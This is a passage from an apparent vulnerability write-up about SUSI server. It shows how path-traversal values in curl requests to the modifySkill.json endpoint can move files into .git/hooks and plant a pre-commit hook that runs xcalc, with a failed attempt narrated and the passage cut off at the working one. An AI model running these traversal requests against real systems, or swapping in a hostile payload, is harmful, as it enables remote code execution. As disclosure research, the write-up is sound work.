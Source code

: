 After running the necessary `curl` commands and after the commit has happened a calculator should have popped up.
But it didn't.
Why?\
Both Git and JGit require the `pre-commit` to be executable and our file isn't.

## Second failed attempt
Luckily, Git by default includes sample hooks that are executable!\
So the new plan of action looks like this:
1. Rename `susi_skill_data/.git/hooks/pre-commit.sample` to a `.txt` file that we can write to.
2. Write `#!/bin/sh\nexec xcalc` to the `.txt` file.
3. Rename the `.txt` file to `susi_skill_data/.git/hooks/pre-commit`.
4. The rename causes a commit and the `pre-commit.sample` by default has executable permissions!

We do this by running two commands:
1. Run
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=whois' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=whois' \
   -F 'content=ANYTHING' -F 'new_image_name=../pre-commit.txt' \
   -F 'old_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit.sample' \
   'http://localhost:4000/cms/modifySkill.json'
   ```
   This will replace the content of `whois.txt` (which we created earlier in the arbitrary `.txt` file write section) with `ANYTHING` and **move `pre-commit.sample` (from the hooks directory) to `pre-commit.txt` which is in the same directory as `whois.txt`.**

2. Run
   ```bash
   curl -X POST -F 'access_token=[YOUR_ACCESS_TOKEN]' -F 'imageChanged=false' \
   -F 'image_name_changed=true' -F 'OldModel=general' -F 'OldGroup=Knowledge' \
   -F 'OldLanguage=en' -F 'OldSkill=pre-commit' -F 'NewModel=general' \
   -F 'NewGroup=Knowledge' -F 'NewLanguage=en' -F 'NewSkill=pre-commit' \
   -F $'content=#!/bin/sh\nexec xcalc' \
   -F 'new_image_name=../../../../../../susi_skill_data/.git/hooks/pre-commit' \
   -F 'old_image_name=../pre-commit.txt' 'http://localhost:4000/cms/modifySkill.json'
   ```
   This will replace the content of `pre-commit.txt` with\
   `#!/bin/sh`\
   `exec xcalc`\
   and move `pre-commit.txt` (from the skills directory) to `pre-commit` (in the hooks directory).

Still, no calculator :(
Why?\
**Only** Git includes sample hooks while JGit doesn't.

## Working attempt
So we need another source for an executable file which we quickly find in `susi_server/src/org/json/JSONException.java`. Here we are assuming that the source code of `susi_server` is available. If it isn't (because we're running a prebuilt version) we will have to find another executable file.
